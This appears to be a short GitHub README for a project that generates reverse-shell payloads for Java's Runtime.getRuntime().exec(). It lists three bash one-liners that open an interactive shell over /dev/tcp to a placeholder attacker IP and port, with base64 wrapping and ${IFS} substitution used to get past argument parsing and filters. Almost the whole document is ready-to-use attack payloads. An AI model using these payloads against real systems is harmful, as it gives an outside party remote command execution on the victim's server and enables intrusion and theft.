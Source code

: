 # ReverseShell-Java
The project work on generating payloads to reverse shell in different contexts of java.


### Payloads in Runtime.getRuntime().exec(String command):
#### Method1:
bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-d}|{bash,-i}
#### Method2:
bash -c bash${IFS}-i${IFS}>&/dev/tcp/**IP**/**PORT**<&1
#### Method3:
bash -c $@|bash 0 echo bash -i >& /dev/tcp/**IP**/**PORT** 0>&1

### Reference:
http://www.jackson-t.ca/runtime-exec-payloads.html
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/